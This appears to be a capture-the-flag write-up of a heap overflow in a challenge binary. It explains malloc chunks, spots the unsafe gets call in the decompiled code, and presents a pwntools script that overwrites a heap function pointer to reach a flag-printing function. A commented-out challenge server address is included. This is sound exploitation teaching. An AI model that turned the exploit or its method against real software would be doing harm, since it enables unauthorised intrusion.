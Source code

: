 ![SECTIONS](https://imgur.com/aVPbDZM.png)

The allocation algorithm in an abstract way is quite simple , we won't dive into too much details , when for example we want to allocate a chunk of 16 bytes using malloc, it's reserved in the heap and malloc returns the address of the beginning of the chunk where we can store the data we want.

You may be asking how your computer knows where the next free chunk starts ? That's quite simple, before each allocated chunk its size is allocated just before it, so the address of the next free chunk will be :

> Address of the beginning of chunk1 + Its size 

This was in a really abstract way , you can do more research alone if you are interested , there is a lot of ressources in the internet :D

![Allocation](https://imgur.com/7ewvjK7.png)

### Exploitation ###

Let the fun begin now :D after downloading the binary let's do some basic reverse engineering and read carefully its code , i used ghidra for that purpose , you can download it from its official website.

![CODE](https://imgur.com/Ra3YFyG.png)

Observing the main function , we can notice that it's allocation two chunks , the first one its size is 0x42 (66 bytes) where our input will be stored and a second chunk which holds an array of function pointers , and based on our input (1 or 2 or 3) the program will call the appropriate function from the heap .

```C
  local_20 = (char *)malloc(0x42);
  local_18 = (code **)malloc(0x18);
  *local_18 = jumpToHoth;
  local_18[1] = jumpToCoruscant;
  local_18[2] = jumpToEndor;
```
Of course as the most vigilant readers noticed , it's using the dangerous function **gets** so we have the possibility to overflow stuffs :D Now here is our plan:

We will abuse the gets function and overwrite the jumpToHoth address with **jumpToNaboo** function which will prints the flag for us
Before that we need to figure out the offset so let's open the binary in gdb, set a breakpoint after gets and enter a simple pattern

![GDB](https://imgur.com/Xpc9YFp.png)

After that let's visualize the interesting part of the heap 

![HEAP](https://imgur.com/qb2XMHG.png)

As you can see the "AAAAAAAABBBBBBBB" that we have entered followed by the array of function pointers , so the offset is obvious now which is 80, let's begin writing our exploit :

```python

from pwn import *
p=process("./JNF")
#p=remote("192.241.138.174",9996)
p.recvuntil("CONSOLE>")
WIN=p64(0x000000000040070e)
OFFSET="1"+"A"*79
payload=OFFSET
payload+=WIN
p.sendline(payload)
log.info("Found Flag ! ")
p.interactive()

```